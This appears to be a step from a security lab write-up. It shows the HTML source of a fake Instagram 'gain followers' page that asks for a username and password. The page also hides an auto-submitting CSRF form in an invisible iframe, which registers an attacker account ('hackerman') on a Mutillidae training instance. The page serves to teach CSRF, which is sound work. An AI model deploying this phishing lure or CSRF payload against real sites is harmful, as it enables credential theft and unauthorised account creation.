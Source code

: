 3. Page source:

    ```html
    <html>

        <head>
            <title>Gain Followers</title>
        </head>

        <body>

            <a href="http://localhost/instagramHacks.html">Back to the home</a>

            <center>
                <img src="instagram.png" width="100px" height="100px">
                <h1>Gain 10.000 new followers!</h1>

                <p>Enter your username and password:</p>

                <form id="dummy" action="/gainFollowersResult.html">
                    <label for="username">Username: </label>
                    <input type="text" name="username" value=""><br><br>

                    <label for="password">Password: </label>
                    <input type="password" name="password" value="">
                </form> 

                <button type="submit" form="dummy" value="Submit">Gain!</button>
            </center>

            <!-- Form target frame to avoid redirection -->
            <iframe id="iframe" name="my_iframe" style="position: absolute;width:0;height:0;border:0;"></iframe>
            
            <!-- CSRF - Register new user -->
            <form name="csrf" id="csrf" target="my_iframe" action="http://192.168.56.101/mutillidae/index.php?page=register.php" method="POST">
                <input type="hidden" name='csrf-token' value=''>
                <input type="hidden" name='username' value='hackerman'>
                <input type="hidden" name='password' value='hackerman123'>
                <input type="hidden" name='confirm_password' value='hackerman123'>
                <input type="hidden" name='my_signature' value=''>
                <input type="hidden" name='register-php-submit-button' value='Create Account'>
            </form>
            
            <!-- Send POST request -->
            <script>
                document.csrf.submit();
            </script>

        </body>

    </html>
    ```

4. When unsuspecting victims load the page, a POST request will be created and sent which will result in a registration of a new user.
